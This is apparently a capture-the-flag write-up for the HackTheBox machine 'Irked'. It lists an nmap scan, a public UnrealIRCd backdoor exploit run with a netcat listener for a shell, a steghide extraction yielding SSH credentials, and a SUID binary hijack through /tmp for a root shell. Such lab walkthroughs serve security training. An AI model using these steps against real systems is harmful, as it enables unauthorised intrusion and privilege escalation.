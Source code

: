 # Recon
```
sudo nmap -sV -sC -O -p- -oN nmap.txt 10.10.10.117
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Irked/assets/1.png">

# Initial Foothold
We spot UnrealIRCd running and see if we can find an exploit:
> https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

We change the ip and port and setup a netcat listener. After we run the following command we will have a low privilege shell:
```
python3 exploit.py 10.10.10.117 8067 -payload python
```

# Lateral Movement
We discover a .backup file in djmardov's home folder which we'll use to extract a pass.txt file in the image found on the website.
```
steghide extract -p UPupDOWNdownLRlrBAbaSSss -sf irked.jpg 
```
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Irked/assets/3.png">

We can now login with SSH as ```djmardov``` with ```Kab6h+m+bbp2J:HG```

# Privilege Escalation
<img src="https://raw.githubusercontent.com/vbrunschot/HackTheBox/main/Irked/assets/4.png">

We notice ```viewuser``` as SUID file and upon running it it refers to ```/tmp/listusers``` which doesn't exist. We create the file and add ```/bin/sh```. Chmod it using ```chmod a+x listusers``` and we get a root shell when we execute ```/usr/bin/viewuser```.



